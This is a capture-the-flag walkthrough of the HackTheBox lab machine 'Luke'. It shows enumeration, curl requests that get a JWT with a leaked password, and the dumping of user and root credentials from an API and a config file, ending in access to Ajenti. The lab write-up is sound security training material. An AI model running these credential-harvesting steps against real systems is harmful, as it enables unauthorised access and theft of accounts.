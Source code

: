 +++
title = "Luke"
date = 2019-09-14
[taxonomies]
tags = ["hackthebox"]
+++

1. Port scans show TCP ports 21, 22, 80, 3000, 8000 are open.

2. The FTP service allows anonymous FTP access so I checked that out. It doesn't contain any useful files besides a .txt file from a user about setting up a web server access for demonstration purposes.

3. The SSH service isn't useful to us right now, we just keep that in mind that we have a service that we can try it on once we enumerate the other services for credentials.

4. Enumerating port 80 showed up a bootstrap page that doesn't have any useful links to administration panels or hints of what CMS it uses besides bootstrap. I began enumerating the port 80 and found this link: [http://luke/config.php](http://luke/config.php)

	```shell
	$dbHost = 'localhost'; $dbUsername = 'root'; $dbPassword = 'Zk6heYCyv6ZE9Xcg'; $db = "login"; $conn = new mysqli($dbHost, $dbUsername, $dbPassword,$db) or die("Connect failed: %s\n". $conn -> error);
	```

	Not sure what to do with this information yet, I'll keep this aside and keep enumerating the other services.

	Another interesting link came up in the dirbuster searches: [http://luke/package.json](http://luke/package.json)

	This JSON file tells us that Bootstrap 4.1.2 is most likely installed. I'll keep this aside just in case I could search for exploits against it.

	![htb-luke-packagejson](htb-luke-packagejson.png)

5. Enumerating port 3000 shows it's running some sort of json service as it replies back with an HTTP request that looks like this:

	```shell
	{"success":false,"message":"Auth token is not supplied"}
	```

	A quick Google search that this message is a JWT Token authentication service. I'll keep this aside once again and finish up my enumeration process to see the bigger picture of what this machine is about. Gobuster also showed there is a directory named `/login` and `/users`.

7. Enumerating port 8000 shows it's running a platform called Ajenti. A quick Google search shows it's a platform made for managing a server. I think this is a potential entry to gain access to what I need to gain user land. I tried the basic possible login and passwords but no luck. Looking for possible exploits only shows a viable XSS exploit but requires that you need to log into Ajenti first.

8. Circling back to what we have found so far, the JWT Token page must be related to generating a password I would assume.

	I don't know what JWT Token was until I was working on this machine. A quick Google search showed a Medium article to show you how to create a POST request to generate a token and GET request with the authorized token to obtain more information.

	After some trial and error, here is my working POST request to obtain the JWT Token using cURL:

	```shell
	curl --header "Content-Type: application/json" --request POST --data '{"password":"Zk6heYCyv6ZE9Xcg", "username":"admin"}' http://luke:3000/login
	```

	The server response was a success!

	```shell
	{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYxNDA1NDQxLCJleHAiOjE1NjE0OTE4NDF9.kMu4ZFovwboGK0X348oz52Fwa_YXY7tKOMoRr8LbU8Y"}
	```

	One thing to note about the cURL command is that I had to change the username from root to admin to get a response. This isn't something I would have thought of and I got a hint from the Discord chat. Lesson learned to enumerate even these json-type services.

9. Now with this JWT Token in hand, what do we do with this? It's time to craft a GET response and see what we can find out in the /users directory that we found earlier.

	```shell
	curl -X GET -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYxNDA1ODg3LCJleHAiOjE1NjE0OTIyODd9.QBBrRf7x5MPx1GkcJRQZxtShmP9az9RpRWqQyq9VHzM' http://luke:3000/users
	```

	The server responded with my request!

	```shell
	[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Web Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
	```

10. This is surprising. I expected to generate a response with username and passwords but only showed username instead. If it's one thing I learned from before, even these json-type services can be enumerated further. I tried to play around with the variables in the json response and see if I get a response.

	```shell
	curl -X GET -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYxNDA1ODg3LCJleHAiOjE1NjE0OTIyODd9.QBBrRf7x5MPx1GkcJRQZxtShmP9az9RpRWqQyq9VHzM' http://luke:3000/users/admin
	```

	And indeed I did so I proceed to enumerate all the users.

	```shell
	{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
	{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
	{"name":"Yuri","password":"bet@tester87"}
	{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
	```

11. Now that we have username and passwords, which services will allow me to login? Seeing that I found 3 places to login so far in port 22, 80, 8000, I tried those and failed. Wondering where if I missed something in my enumeration process and indeed I did. Don't just rely on 1 tool to do all your scans as I did. I only used Gobuster for my enumeration process and I should have used dirbuster with recursive mode turned on. Once I did, it found a `/management` folder in port 80.

	The folder was protected by HTTP Basic Auth but was bypassed as I used Derry's login. Once logged in, there are couple of files displayed but only the `config.json` file had interesting data.

	```shell
	{
	    "users": {
	        "root": {
	            "configs": {
	                "ajenti.plugins.notepad.notepad.Notepad": "{\"bookmarks\": [], \"root\": \"/\"}", 
	                "ajenti.plugins.terminal.main.Terminals": "{\"shell\": \"sh -c $SHELL || sh\"}", 
	                "ajenti.plugins.elements.ipmap.ElementsIPMapper": "{\"users\": {}}", 
	                "ajenti.plugins.munin.client.MuninClient": "{\"username\": \"username\", \"prefix\": \"http://localhost:8080/munin\", \"password\": \"123\"}", 
	                "ajenti.plugins.dashboard.dash.Dash": "{\"widgets\": [{\"index\": 0, \"config\": null, \"container\": \"1\", \"class\": \"ajenti.plugins.sensors.memory.MemoryWidget\"}, {\"index\": 1, \"config\": null, \"container\": \"1\", \"class\": \"ajenti.plugins.sensors.memory.SwapWidget\"}, {\"index\": 2, \"config\": null, \"container\": \"1\", \"class\": \"ajenti.plugins.dashboard.welcome.WelcomeWidget\"}, {\"index\": 0, \"config\": null, \"container\": \"0\", \"class\": \"ajenti.plugins.sensors.uptime.UptimeWidget\"}, {\"index\": 1, \"config\": null, \"container\": \"0\", \"class\": \"ajenti.plugins.power.power.PowerWidget\"}, {\"index\": 2, \"config\": null, \"container\": \"0\", \"class\": \"ajenti.plugins.sensors.cpu.CPUWidget\"}]}", 
	                "ajenti.plugins.elements.shaper.main.Shaper": "{\"rules\": []}", 
	                "ajenti.plugins.ajenti_org.main.AjentiOrgReporter": "{\"key\": null}", 
	                "ajenti.plugins.logs.main.Logs": "{\"root\": \"/var/log\"}", 
	                "ajenti.plugins.mysql.api.MySQLDB": "{\"password\": \"\", \"user\": \"root\", \"hostname\": \"localhost\"}", 
	                "ajenti.plugins.fm.fm.FileManager": "{\"root\": \"/\"}", 
	                "ajenti.plugins.tasks.manager.TaskManager": "{\"task_definitions\": []}", 
	                "ajenti.users.UserManager": "{\"sync-provider\": \"\"}", 
	                "ajenti.usersync.adsync.ActiveDirectorySyncProvider": "{\"domain\": \"DOMAIN\", \"password\": \"\", \"user\": \"Administrator\", \"base\": \"cn=Users,dc=DOMAIN\", \"address\": \"localhost\"}", 
	                "ajenti.plugins.elements.usermgr.ElementsUserManager": "{\"groups\": []}", 
	                "ajenti.plugins.elements.projects.main.ElementsProjectManager": "{\"projects\": \"KGxwMQou\\n\"}"
	            }, 
	            "password": "KpMasng6S5EtTy9Z", 
	            "permissions": []
	        }
	    }, 
	    "language": "", 
	    "bind": {
	        "host": "0.0.0.0", 
	        "port": 8000
	    }, 
	    "enable_feedback": true, 
	    "ssl": {
	        "enable": false, 
	        "certificate_path": ""
	    }, 
	    "authentication": true, 
	    "installation_id": 12354
	}
	```

	The config.json file contains a root and password. Now what do we do with this newly obtained credentials? I tried using it on the other login panels as we found earlier again. The root credentials was succcessful on port 8000, the Ajenti platform!

12. Once logged in, I was looking for a possible way to read the flag such as an editor or something. Luckily, there is a File Manager tool that we can read the user flag and even root flag. That was too easy.

![htb-luke-rootfs](htb-luke-rootfs.png)
